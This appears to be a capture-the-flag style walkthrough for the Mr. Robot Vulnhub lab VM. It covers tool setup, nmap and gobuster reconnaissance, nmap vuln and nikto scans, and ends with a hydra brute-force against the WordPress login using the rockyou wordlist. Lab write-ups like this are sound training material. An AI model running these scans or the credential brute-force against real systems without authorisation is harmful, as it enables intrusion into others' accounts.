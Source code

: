 # Overview of the Exploit Process

## Step 1: Set Up Environment
- **Objective:** Prepare your Kali Linux attacker VM and the Mr. Robot Vulnhub target VM.
- **Actions:**
  - Install necessary software on Kali Linux:
    ```bash
    sudo apt update
    sudo apt install -y nmap gobuster hydra metasploit-framework
    ```

## Step 2: Network Scanning
- **Objective:** Identify the target's open ports and services.
- **Tools:** Nmap
- **Commands:**
    ```bash
    nmap -sS -sV -O 192.168.1.226
    ```

## Step 3: Enumeration
- **Objective:** Gather detailed information about the target's web applications and technologies.
- **Tools:** Gobuster, Wappalyzer
- **Commands:**
    ```bash
    gobuster dir -u http://192.168.1.226 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
    ```
  - Use Wappalyzer browser extension to identify web technologies used by the target site.

## Step 4: Vulnerabilities
- **Objective:** Identify vulnerabilities in the target's web applications and services.
- **Tools:** Nmap, Nikto
- **Commands:**
    ```bash
    nmap --script vuln 192.168.1.226
    nikto -h http://192.168.1.226
    ```

## Step 5: Brute-force
- **Objective:** Gain access to the target by brute-forcing login credentials.
- **Tools:** Hydra
- **Commands:**
    ```bash
    hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
    ```
